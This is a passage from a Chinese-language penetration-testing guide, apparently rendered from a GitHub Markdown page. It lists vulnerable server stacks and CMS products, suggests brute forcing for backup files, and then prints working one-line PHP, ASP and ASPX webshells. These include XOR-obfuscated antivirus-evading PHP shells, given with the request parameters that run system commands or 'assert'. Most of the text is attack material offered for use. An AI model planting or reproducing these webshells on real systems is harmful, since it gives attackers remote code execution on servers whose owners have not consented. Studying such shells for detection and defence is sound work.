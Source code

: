 #### 3.2.2 集成服务环境漏洞

-   wampserver
-   xamppserver

#### 3.2.3 CMS 漏洞利用

搜集最新版本的 CMS，以及对应的漏洞 Poc 和 Exp，这里仅仅列举部分 CMS：

-   Aspcms
-   Dedecms
-   Dicuz
-   Drupal
-   Empirecms
-   Eshop
-   Finecms
-   Joomla
-   Lamp
-   Metainfo
-   Phpcms
-   Phpwind
-   Qibocms
-   Seacms
-   Semcms
-   ThinkPHP
-   Wolfcms
-   Wordpress
-   Zabbix

备份文件爆破：使用 7kbScan 等目录扫描工具对 Web 系统进行爆破

#### 3.2.4 上传 WebShell

常见一句话木马

```php
PHP： <?php @eval($_POST['pass']);?>      <?php eval($_GET['pass']);
Asp：   <%eval request ("pass")%>
Aspx：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

Get 型木马

```php
<?php eval($_GET['pass']);           //利用方式/shell.php?pass=eval($_POST[1]);
```

免杀马制作：[https://github.com/AabyssZG/WebShell-Bypass-Guide](https://github.com/AabyssZG/WebShell-Bypass-Guide)

```php
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);                            //执行 GET 传参 ?_=system&__=whoami 来执行 whoami 命令
<?=~$_='$<>/'^'{{{{';$___='$+4(/' ^ '{{{{{';@${$_}[_](@${$___}[__]);   //执行 GET 传参 ?_=assert 和 POST 传参 __=PHP 代码来 GetShell
```
